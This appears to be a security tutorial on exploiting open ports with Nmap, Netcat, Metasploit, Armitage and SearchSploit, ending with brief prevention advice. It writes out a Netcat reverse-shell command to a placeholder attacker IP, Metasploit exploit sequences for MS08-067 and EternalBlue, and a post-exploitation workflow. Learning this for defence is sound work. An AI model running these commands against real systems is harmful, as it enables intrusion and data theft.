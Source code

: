 System Hacking Using Open Ports
Open ports on a system can provide a pathway for attackers to gain unauthorized access. Hackers use tools like Nmap, Netcat, Metasploit (MSF), Armitage, and Exploit DB to discover and exploit vulnerabilities associated with open ports and their associated services.

Key Tools and Their Usage
1. Nmap (Network Mapper)
Nmap is a powerful tool for network discovery and vulnerability assessment. It identifies open ports, running services, and potential vulnerabilities.

Scan Open Ports:

bash
Copy code
nmap -p 1-65535 <target-IP>
Service and Version Detection:

bash
Copy code
nmap -sV -p <port> <target-IP>
Script Scanning (using Nmap Scripting Engine - NSE):

bash
Copy code
nmap --script vuln <target-IP>
Common Open Ports:

21 (FTP)
22 (SSH)
23 (Telnet)
25 (SMTP)
80/443 (HTTP/HTTPS)
445 (SMB)
3306 (MySQL)
2. Netcat (NC)
Netcat is a versatile networking tool for port scanning, service interaction, and creating backdoors.

Scan Open Ports:

bash
Copy code
nc -zv <target-IP> <start-port>-<end-port>
Banner Grabbing (to identify services running on open ports):

bash
Copy code
nc <target-IP> <port>
Establish Reverse Shell: On Attacker:

bash
Copy code
nc -lvp <port>
On Target:

bash
Copy code
nc <attacker-IP> <port> -e /bin/bash
3. Metasploit Framework (MSF)
Metasploit is a robust framework for finding and exploiting vulnerabilities in systems.

Scan for Open Ports: Use auxiliary modules to scan ports:

bash
Copy code
use auxiliary/scanner/portscan/tcp
set RHOSTS <target-IP>
run
Exploit Open Port Vulnerabilities: Search for exploits:

bash
Copy code
search <service-name>
Example Exploit:

bash
Copy code
use exploit/windows/smb/ms08_067_netapi
set RHOST <target-IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-IP>
run
4. Armitage
Armitage is a GUI front-end for Metasploit, simplifying the exploitation process.

Discover Open Ports: Use the built-in port scanning feature.

Automated Exploits:

After scanning, Armitage suggests exploits for identified vulnerabilities.
Launch exploits directly from the GUI.
5. Exploit DB
Exploit DB is a repository of publicly disclosed exploits. It is useful for finding vulnerabilities associated with specific services running on open ports.

Search for Vulnerabilities: Visit Exploit DB or use SearchSploit:

bash
Copy code
searchsploit <service-name or CVE>
Example: Exploit for FTP service running on port 21:

bash
Copy code
searchsploit vsftpd
Common Exploits Based on Open Ports
Port 21 (FTP):

Vulnerability: Anonymous login enabled.
Exploit: Upload malicious files or scripts.
Tool: Metasploit’s ftp_login auxiliary module.
Port 22 (SSH):

Vulnerability: Weak credentials.
Exploit: Bruteforce using tools like Hydra or Metasploit.
Port 23 (Telnet):

Vulnerability: No encryption.
Exploit: Capture credentials using a man-in-the-middle attack.
Port 445 (SMB):

Vulnerability: SMBv1 (EternalBlue exploit).
Exploit: Use MSF module exploit/windows/smb/ms17_010_eternalblue.
Port 3306 (MySQL):

Vulnerability: Default credentials.
Exploit: Access the database and extract sensitive data.
System Hacking Workflow
Reconnaissance:

Use Nmap to identify open ports and services.
Perform banner grabbing with Netcat.
Vulnerability Scanning:

Run vulnerability scans using Nmap NSE or tools like Nessus.
Exploit Discovery:

Use Exploit DB or Metasploit to find exploits.
Launch Exploits:

Exploit vulnerabilities using Metasploit or manually with tools like Netcat.
Post-Exploitation:

Maintain access using backdoors or reverse shells.
Escalate privileges and gather sensitive information.
Preventing Open Port Exploitation
Close Unnecessary Ports: Use a firewall to block unused ports.

Use Strong Passwords: Prevent brute-force attacks by enforcing complex passwords.

Update and Patch: Keep systems and software up-to-date to mitigate vulnerabilities.

Intrusion Detection Systems (IDS): Monitor and alert suspicious activities.

Regular Audits: Periodically scan your systems for open ports and vulnerabilities.

